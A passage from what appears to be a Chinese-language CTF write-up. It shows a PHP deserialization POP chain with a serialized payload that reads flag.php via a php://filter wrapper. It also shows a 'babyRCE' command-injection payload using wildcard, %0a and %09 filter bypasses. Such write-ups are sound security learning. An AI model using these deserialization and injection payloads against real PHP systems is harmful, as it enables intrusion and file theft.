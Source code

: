 ```php
        }
}

}
class C{
  public $var;
  public $z;
    public function __toString(){
        return $this->z->var;
    }
}

class D{
  public $p;
    public function __get($key){
        $function = $this->p;
        return $function();
    }  
}
$a=new A();
$d=new D();
$d->p=$a;
$c=new C();
$b=new B();
$c->z=$d;
$c->var=$b;
$b->q=$c;
echo serialize($b);

?>
```

    ?payload=O:1:"B":1:{s:1:"q";O:1:"C":2:{s:3:"var";r:1;s:1:"z";O:1:"D":1:{s:1:"p";O:1:"A":1:{s:5:"var_1";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}}}}

### [WEEK1]babyRCE

rce



![](https://s2.loli.net/2024/03/08/ON594zohXw21uvG.png)

**uniq 没过滤**

**flag 用 fl?g 代替**

**分号用 %0a 代替**

**空格用 %09 代替**

    ?rce=uniq$IFS/fl?g%0a

### **[WEEK1]生成你的邀请函吧~**
